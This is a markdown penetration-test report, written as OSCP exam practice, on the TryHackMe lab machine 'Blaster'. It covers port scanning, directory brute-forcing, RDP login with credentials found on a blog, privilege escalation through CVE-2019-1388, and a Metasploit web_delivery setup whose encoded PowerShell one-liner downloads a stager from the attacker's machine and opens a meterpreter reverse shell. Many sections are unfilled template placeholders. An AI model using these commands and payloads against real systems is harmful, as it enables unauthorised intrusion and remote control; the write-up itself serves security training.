








# Offensive Security OSCP Exam Report

# Sample Report - High-Level Summary

I was tasked to perform an internal penetration test towards the TryHackMe Room [Blaster](https://tryhackme.com/room/blaster) as preparation for the Offensive Security Exam.

A penetration test is an attack against internally connected systems to simulate real-world cyber crimnal activities.

The scope os this test is to perform attacks to the room [Blaster](https://tryhackme.com/room/blaster) using techniques and methodologies similar to the used during cyber attacks. This scopes include the following IP/URL:
- **10.10.154.254**


**Results**
**List of hacked systems**

## Recommendations

???????????????

# Findings

## Issue Number - Issue Header
**Severity**

**Description**

**Recommendation**

## 1 - Version Disclosure
**Severity**
Medium
**Description**
Version of service from nmap scan:
```
nmap -p80,3389 -Pn -A 10.10.154.254 -oA laster/Ascan
```
Result:
```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
```
**Recommendation**
No version, known vulnerabilities

## 2 - Service with known vulnerability
**Severity**
High
**Description**
HTTP service version *Microsoft IIS httpd 10.0* has a known vulnerability [blabla](CVE site)
**Recommendation**
Patch management

## 3 - Directory discovery by performing bruteforce
**Severity**
High
**Description**
With *dirb* it is possible to find hidden directories:
```
dirb http://10.10.154.254/ /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -o dirbBlaster.txt 

# Command explanation
# Performing a brute-force to find hidden directories based on a standard wordlist
# selected wordlist
# -o output
```

The result:
```
---- Scanning URL: http://10.10.154.254/ ----
==> DIRECTORY: http://10.10.154.254/retro/      
```

There we can find a page:

**Recommendation**

## 4 - Information disclosure
**Severity**
High
**Description**
Potential username:


Potential password discovered on *http://10.10.154.254/retro/index.php/2019/12/09/tron-arcade-cabinet/*:

**Recommendation**

## 5 - Remote login with credentials
**Severity**
High
**Description**
Service *Microsoft Remote Desktop* available with credentials:
```
xfreerdp /v:10.10.154.254 /u:wade /p:parzival +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

Login to the service:

**Recommendation**

## 6 - System with known vulnerability
**Severity**
High
**Description**
[CVE-2019-1388](https://www.cvedetails.com/cve/CVE-2019-1388/)

Exploiting:

By performing those steps, we are prompted a CMD with administrative rights:


**Recommendation**

## 7 - System configuration allows upload and execution of external files
**Severity**

**Description**
To upload the script, we create a webserver on our machine:

```
sudo python3 -m http.server 80 
```

On the target, we fetched the winPEAS.ps1 script:

```
Invoke-WebRequest -Uri http://10.9.1.255:80/winPEAS.ps1 -Outfile winPEAS.ps1
```

Result:


**Recommendation**

# Narrative
In this chapter we will describe in details the steps of our penetration tests. The chapter will be devided in sections, each of them will describe the different phases of this engagement. 

## Scope Enumeration
After the scope was defined to the IP *10.10.154.254*, we performed an enumeration of opened ports and service in the system. We executed the following commands to find opened ports:

```
nmap -pp -Pn -sS 10.10.154.254 -oA blaster/AllPorts

# Command explanation
# -p-: allports
# -Pn: noping
# -sS: SYN scan (stealth to avoid detection)
# -oA:output
```

This scan showed us tha the following ports and services is running on the system:

```
Nmap scan report for 10.10.154.254
Host is up (0.033s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

Our second scan target those services to detect their version and potential known vulnerabilities. We issued the following command:

```
nmap -p80,3389 -Pn -A 10.10.154.254 -oA laster/Ascan

# Command explanation
# -p-: allports
# -Pn: noping
# -sS: SYN scan (stealth to avoid detection)
# -A: version and OS detection, script and traceroute 
# -oA:output
```

Our second scan delivered us the following result

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-22 20:48 CEST
Nmap scan report for moz
Host is up (0.032s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-09-21T18:40:32
|_Not valid after:  2024-03-22T18:40:32
|_ssl-date: 2023-09-22T18:48:59+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-09-22T18:48:54+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
```

From the results, we found services and their version and also a web-server, as shown in the picture below:



### Web-server enumeration
After finding this web-server, our first step was a enumeration to find possible hidden information. With the tool *dirb*, we tried to discover what possible paths are available: 

```
dirb http://10.10.154.254/ /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -o dirbBlaster.txt 

# Command explanation
# Performing a brute-force to find hidden directories based on a standard wordlist
# selected wordlist
# -o output
```

This command gave us the following result:
```
---- Scanning URL: http://10.10.154.254/ ----
==> DIRECTORY: http://10.10.154.254/retro/      
```

In this paths lies the following page:


The page is a blog-site on *wordpress*. One information near the header of each post may indicate a potential username:


By navigating on the blog, *http://10.10.154.254/retro/index.php/2019/12/09/tron-arcade-cabinet/* and clicking on *Comment RSS*, a file is downloaded, where a potential password is available: *parzival*


With a potential combination wade:parzival as username and password and knowing that port 3389 is opened, we attempted to login to the Microsoft Remote Desktop of this account:

```
xfreerdp /v:10.10.154.254 /u:wade /p:parzival +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

By sending this command, we could access the remote service:


With this access, our next step is a escalation of prilege to gain administrative access.

## Access to Remote Desktop
With our access to the Remote Desktop, we start enumerating this server to find potential vulnerabilities that allows us an escalation of privilege to gain administrative access.

On the desktop, we found the executable *hhpud*, which contains a known vulnerability that allows privilege escalation using windows certificate: [CVE-2019-1388](https://www.cvedetails.com/cve/CVE-2019-1388/)

For further enumeration, we uploaded and executed the script *winPeas.ps1" script from [PEASS-ng repository](https://github.com/carlospolop/PEASS-ng):

We performed our enumeration on this windows server as following:
- Upload and execute the .ps1 script the file winPeas

To upload the script, we create a webserver on our machine:

```
sudo python3 -m http.server 80 
```

On the target, we fetched the winPEAS.ps1 script:

```
Invoke-WebRequest -Uri http://10.9.1.255:80/winPEAS.ps1 -Outfile winPEAS.ps1
```

### Escalating privileges with found service
The exploitation of this vulnerability [CVE-2019-1388](https://github.com/jas502n/CVE-2019-1388) can be performed by executing the application. The steps to execute this application are the following:

1. Right click on the file hhupd and click on *Run as Administrator*

2. Click on *"*Show more details*

3. Click on *"*Show information about the publisher's certificate*"*

4. Click on the *Issued by* URL. It will open a page on the browser

5. Once the site is loaded, click on *save as* to open the windows explorer 

6. On the explorer window address path, we need to enter the full path of cmd:
*C:\WINDOWS\system32\cmd.exe*

By performing those steps, we are prompted a CMD with administrative rights:


## Gaining Remote Shell and establishing persistance
With our administrative access, our next text is to create a reverse shell and establish persistance on the target.

Using the tool *metasploit*, we were able to deliver a payload with the module */exploit/multi/script/web_delivery*. This module provides a command to be run on the target, it allowas creating a session on the target machine. We issued the next commands:

```
# Configuring payload
use exploit/multi/script/web_delivery 
set target 2 (PSH - powershell)
set lhost ATTACKING_MACHINE_IP
set lport 4444
set payload windows/meterpreter/reverse_http

# This command generate the following payload to be executed on the target
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABvAG0AegByAGoAPQBuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAA7AGkAZgAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAFAAcgBvAHgAeQBdADoAOgBHAGUAdABEAGUAZgBhAHUAbAB0AFAAcgBvAHgAeQAoACkALgBhAGQAZAByAGUAcwBzACAALQBuAGUAIAAkAG4AdQBsAGwAKQB7ACQAbwBtAHoAcgBqAC4AcAByAG8AeAB5AD0AWwBOAGUAdAAuAFcAZQBiAFIAZQBxAHUAZQBzAHQAXQA6ADoARwBlAHQAUwB5AHMAdABlAG0AVwBlAGIAUAByAG8AeAB5ACgAKQA7ACQAbwBtAHoAcgBqAC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOQAuADEALgAyADUANQA6ADgAMAA4ADAALwBxAGEARgBaADMAQQB6AGwASQAvAHgARgBWADkAUgBkAHQAMwBXAGoAJwApACkAOwBJAEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADkALgAxAC4AMgA1ADUAOgA4ADAAOAAwAC8AcQBhAEYAWgAzAEEAegBsAEkAJwApACkAOwA=
```

After executing the generated payload on the target machine, our metasploit job returns a meterpreter reverse shell with administrative privileges:




*Alternative*
- Create user 
- Adding this user in admin groups

## Sectio 4

## House Cleaning

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.

# Conclusion